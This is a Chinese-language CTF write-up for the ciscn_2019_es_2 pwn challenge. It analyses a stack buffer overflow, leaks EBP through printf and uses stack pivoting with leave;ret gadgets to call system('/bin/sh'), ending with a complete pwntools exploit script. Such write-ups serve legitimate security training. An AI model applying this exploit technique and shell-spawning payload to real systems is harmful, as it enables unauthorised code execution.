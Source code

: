 ## 0x001 程序分析

程序的主要部分位于vul函数中，直接进入该函数分析

![](1.png)

这里有两个read输入，两个printf输出，其中接收输入的长度为0x30，**s** 的长度为0x28，没有其他信息。

程序中还有一个hack函数

![](2.png)

调用了system函数，程序中没有提供 "/bin/sh" 字符串。

## 0x002 漏洞分析

由于 **s** 的长度为0x28，可接受输入的长度为0x30，因此会造成数组越界，也就是栈溢出，但是这个栈溢出，由于输入的长度有限，仅仅只能覆盖到返回地址，无法给调用的函数传递参数。

## 0x003 漏洞利用

根据漏洞分析，由于输入的长度有限，可以控制返回地址，但是无法给执行的函数传递参数，因此需要使用 **栈迁移** 来解决空间不足的问题。

栈迁移就是通过利用一系列的 **leave;ret** 指令，最终控制 **EIP**。

在该程序中，第一个输入输出，可以泄漏 **EBP**，由于printf的结束符为 "\x00"，因此需要构造如下指令泄漏 **EBP** 地址。**s** 距离EBP为0x28，因此输入0x28个字节后，就会将EBP一起打印出来。（这里只需要输入0x27个字符，因为read会在输入的最后添加"\x0a"，正好0x28个）

```
payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))
```

通过gdb调试，可以知道泄漏出来的 **EBP** 距离 **s** 的距离为0x38。有了EBP之后，就需要来构造栈空间了。

通过第二次输入，构造的栈空间如下：
```
payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
```

下面是详细分析图：

![](3.png)

![](4.png)

也就是在vul函数中的末尾执行leave时，会将我们构造好的EBP赋值给ESP，然后将新ESP的内容赋值给EBP，也就是通过修改EBP，重新规划了一块栈空间。在之后的返回地址处，使程序返回到程序中的其他 **leave;ret** 指令处。

![](5.png)

![](6.png)

由上图指令执行前后对比可以看到，从vul函数返回后，已经进入了我们规划好的栈空间中了，再通过 **leave;ret** 指令调整ESP的值，即可将返回地址定位到 **system** 函数，后面也有足够的空间存放返回地址和参数，即可成功获取系统权限。

最终EXP如下：
```
from pwn import *

p = process("./ciscn_2019_es_2")

payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))

payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
p.sendline(payload)

p.interactive()
```